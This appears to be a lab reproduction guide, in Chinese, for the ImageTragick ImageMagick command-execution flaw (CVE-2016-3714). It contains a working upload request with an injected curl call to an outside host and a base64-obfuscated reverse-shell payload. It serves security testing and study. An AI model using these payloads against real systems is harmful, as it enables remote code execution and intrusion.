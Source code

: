 # Imagetragick 命令执行漏洞（CVE-2016–3714）

详情见 https://imagetragick.com/ 和 https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html ，不再描述原理。

## 测试方法

一些测试使用的POC：https://github.com/ImageTragick/PoCs

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip/`可见有三个文件：

```bash
├── demo.php # 使用vul.jpg+identify命令测试 
├── upload.php # 支持用户进行上传，并将上传的文件传入PHP的imagick扩展，触发漏洞
└── vul.jpg # 一个简单的POC
```

首先访问`http://your-ip/demo.php`，命令并没有回显，但在docker容器中，已经成功得到`/tmp/success`文件：

![](1.png)

再访问`http://your-ip/demo.php`测试，上传POC文件，数据包如下（**注意，我换了一个POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：

![](2.png)

反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
